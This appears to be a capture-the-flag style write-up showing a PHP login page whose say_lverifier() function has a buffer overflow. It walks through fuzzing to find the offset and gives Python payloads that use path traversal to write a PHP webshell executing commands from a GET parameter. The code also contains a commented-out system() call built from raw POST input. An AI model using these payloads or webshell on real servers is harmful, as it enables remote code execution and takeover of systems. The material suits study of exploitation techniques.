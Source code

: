 ```bash
        }
?>
<?php
        if(info__index__wellcom::$__DEBUG){
                include '../utils/debug.php';
                init_debug();
        }
?>
<?php
        if(isset($_POST['username']) && isset($_POST['password'])){
//              system("echo ".$_POST['username']." > /tmp/LOG");
                if(say_lverifier($_POST['username'], $_POST['password'])){
                        session_start();
                        $_SESSION['username'] = $_POST['username'];
                        $_SESSION['IS_USER_'] = "yes";
                        $_SESSION['__HASH__'] = md5($_POST['username'] . "::" . $_POST['password']);
                        header('Location: /core/index.php');
                }else{
                        echo "<script>alert('invalid credentials')</alert>";
                }
        }
?>

[...] # some terrible css here =)

<form method="post" action="index.php">
<div class="box">
<h1>Welcom User</h1>
<h2>WBMS inc</h2>
<input type="username" name="username" value="" class="email" />
<input type="password" name="password" value="" class="email" />
<input type="submit" <div class="btn"></div> version 0.1
</div> <!-- End Box -->
</form>

<p>Forgot your password? <br> contact your admin <br> OR request password reset from technical team<br> OR access your device physically and reset your password</p>
<script src="./main.js" type="text/javascript"></script>
<script src="//ajax.googleapis.com/ajax/libs/jquery/1.9.0/jquery.min.js" type="text/javascript"></script>
```
The only vulnerable thing in this code is this function `say_lverifier()` and it's imported locally.<br>
To find the exploit i tried to fuzz by sending a large number, and eventually that created a directory in my system with the name that i sended at the end around 780 chars.<br>
That means i found a buffer overflow that can let me write files in directory, now i need to adjust the offset and payload type to load a webshell inside the directory of the webserver running as root<br>
Eventually i found out that the offset is around 715 bytes, i used `/` for comment in case some of them ends up in php.<br>
Thas the payload i used:
```python
a = '/tmp/bf_overflow/<?=`$_GET[0]`?>/../../..//development/server-management_system_id_0/bf_overflow.php'  #payload that let me pollute the log file and write the content that i want in any directory
#number of '/' change in relation to your payload.
payload = '/'*700 + a  + 'A'*64738   #write the payload starting from the buffer overflow getting to the end of the buffer, writing the payload and eventually fill the rest with buffer 
```
To create the payload a bit faster from terminal we can also write:
```python
python3 -c "a = '/tmp/bf_overflow/<?=\`\$_GET[0]\`?>/../../..//development/server-management_system_id_0/bf_overflow.php';payload = '/'*700 + a  + 'A'*64738;print(payload)" > payload.txt
```